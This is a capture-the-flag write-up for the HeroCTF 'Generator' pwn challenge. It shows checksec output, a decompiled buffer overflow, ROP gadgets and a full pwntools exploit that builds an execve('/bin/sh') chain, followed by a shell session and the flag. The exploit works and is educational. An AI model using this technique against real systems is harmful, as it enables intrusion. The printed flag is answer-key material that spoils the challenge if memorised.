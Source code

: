 # Generator

### Category

Pwn

### Description

Login and get the flag!

**Host** : pwn.heroctf.fr<br>
**Port** : 8000

Format : **Hero{flag}**<br>
Author : **SoEasY**

### Files

 - [Generator](Generator)

### Write up

Let's start this challenge by making a checksec on the binary:
```bash
$ checksec ./Generator
[*] '/home/soeasy/GitHub/HeroCTF_v4/Pwn/Generator/Generator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
We can see that there is no PIE and no stack canary: the perfect setup to ROP. Let's open the binary in IDA and look at the main:
```c
int __cdecl main(int argc, const char **argv, const char **envp){
  unsigned int v3; // eax
  char s[5]; // [rsp+7h] [rbp-9h] BYREF
  int i; // [rsp+Ch] [rbp-4h]

  v3 = time(0LL);
  srand(v3);

  for ( i = 0; i <= 6; ++i )
    random_str[i] = rand() % 94 + 33;

  random_str_last_byte = 0;

  printf("Random string generated: %s\n", random_str);
  printf("Are you satisfied by this application ? (yes/no) ");
  fflush(_bss_start);
  fgets(s, 100, stdin);

  if ( strncmp(s, "yes", 3uLL) ){
    printf("Sorry to read this, we will do our best to give you a better user experience...%c", 10LL);
    fflush(_bss_start);
    exit(1);
  }

  printf("Nice ! Rate us on the playstore: %s\n", playstore_link);
  fflush(_bss_start);
  return 0;
}
```
So we can see that a random 7-bytes-long string is generated and placed in a global variable in the .bss called `random_str`.
Then, an input is asked to the user on 100 bytes to fit in a char[5] --> evident buffer overflow here, but the trick is that it has to start with "yes" without what `exit(1)` will be called and the main return will never be called.

Then, we can observe a symbol called `interesting`, let's see what's going on there:
```nasm
.text:0x401216     endbr64
.text:0x40121A     push    rbp
.text:0x40121B     mov     rbp, rsp
.text:0x40121E     xor     [rdi], rsi
.text:0x401221     retn

.text:0x401222     pop     rdi
.text:0x401223     pop     rsi
.text:0x401224     pop     rdx
.text:0x401225     retn

.text:0x401226     xchg    rax, rdx
.text:0x401228     retn

.text:0x401229     syscall
```

Nice ! we've got everything here to make our ROPchain that will execute `execve("/bin/sh")`. This is the plan:
- xor `random_str` with a value to have "/bin/sh"
- set rax to 0x3b (SYS_EXECVE)
- set rdi to &random_str
- set rsi to 0
- set rdx to 0
- syscall

--> Note that the final payload's length must be < 100 bytes.
```py
from pwn import *

r = remote("pwn.heroctf.fr", 8000)
#r = process("./Generator")

xor_ptr_rdi_rsi = p64(0x40121e)
pop_rdi_rsi_rdx = p64(0x401222)
pop_rsi_rdx		= p64(0x401223)
xchg_rax_rdx	= p64(0x401226)
syscall			= p64(0x401229)
random_str		= p64(0x404090)

string = r.recvuntil(b"\n").split(b" ")[-1].strip()
print(f"[+] Leaked string: {string}")

# [::-1] because the string will be xored in little endian in the program
xor_val = int(binascii.hexlify((string + b"\x00")[::-1]), 16) ^ int(binascii.hexlify(b"/bin/sh\x00"[::-1]), 16)
print(f"[+] XOR value to have \"/bin/sh\": {hex(xor_val)}")

rop = b"yes"
rop += b"A" * 14

rop += pop_rdi_rsi_rdx
rop += random_str
rop += p64(xor_val)
rop += p64(0x3b)

rop += xchg_rax_rdx
rop += xor_ptr_rdi_rsi

rop += pop_rsi_rdx
rop += p64(0)
rop += p64(0)

rop += syscall

# pause()
log.success(f"ROPchain length: {len(rop)}")
r.sendline(rop)
r.interactive()
```
Result:
```bash
$ python3 solve.py 
[+] Opening connection to pwn.heroctf.fr on port 8000: Done
[+] Leaked string: b'Py1_EGk'
[+] XOR value to have "/bin/sh": 0x3346a31581b7f
[+] ROPchain length: 97
[*] Switching to interactive mode
Are you satisfied by this application ? (yes/no) Nice ! Rate us on the playstore: https://bit.ly/384qugO
$ id
uid=1000(player) gid=1001(player) groups=1001(player),1000(ctf)
$ cat flag.txt
Hero{Pr3tty_c00l_x64_R0P_1ntr0_r1ght???}
```


### Flag

```
Hero{Pr3tty_c00l_x64_R0P_1ntr0_r1ght???}
```
